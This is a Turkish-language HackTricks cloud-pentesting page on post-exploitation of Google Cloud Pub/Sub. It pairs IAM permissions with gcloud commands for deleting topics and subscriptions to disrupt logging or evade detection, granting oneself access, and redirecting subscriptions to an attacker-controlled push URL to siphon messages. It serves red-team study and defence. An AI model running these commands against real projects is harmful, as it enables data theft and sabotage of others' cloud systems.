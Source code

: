 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Pub/Sub

Pub/Sub hakkında daha fazla bilgi için aşağıdaki sayfayı kontrol edin:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Bir konuda bir mesaj yayınlayın, **beklenmedik veriler göndermek** ve beklenmedik işlevleri tetiklemek veya zafiyetleri istismar etmek için yararlıdır:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Bir aboneliğin mesaj almasını önlemek için yararlıdır, belki de tespiti önlemek için.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Bir aboneliğin mesaj almasını önlemek için faydalıdır, belki de tespiti önlemek için.\
Bir konuya bağlı abonelikler olsa bile bir konuyu silmek mümkündür.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Bu izni, konuyu bozmak için bazı ayarları güncellemek için kullanın, örneğin `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Önceki saldırılardan herhangi birini gerçekleştirmek için kendinize izin verin.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Bir web sunucusundaki tüm mesajları alın:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Bir abonelik oluşturun ve bunu **mesajları çekmek** için kullanın:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Bir aboneliği silmek**, bir günlük işleme sistemini veya benzeri bir şeyi kesintiye uğratmak için faydalı olabilir:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Bu izni, mesajların erişebileceğiniz bir yerde (URL, Big Query tablosu, Bucket) saklanması için bazı ayarları güncellemek veya sadece bunu bozmak için kullanın.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Önceki yorumlanan saldırıları gerçekleştirmek için gerekli izinleri kendinize verin.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Bir şemayı bir konuya ekleyin, böylece mesajlar onu karşılamaz ve bu nedenle konu bozulur.\
Eğer hiç şema yoksa, bir tane oluşturmanız gerekebilir.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Bu, bir şemayı silmek gibi görünebilir, böylece şemaya uymayan mesajlar gönderebilirsiniz. Ancak, şema silineceği için hiçbir mesaj aslında konuya girmeyecek. Bu nedenle bu **ANLAMSIZDIR**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Kendinize daha önce bahsedilen saldırıları gerçekleştirmek için gereken izinleri verin.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Bu, tüm onaylanmamış mesajların bir anlık görüntüsünü oluşturacak ve bunları aboneliğe geri koyacaktır. Bir saldırgan için çok faydalı değil ama burada:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
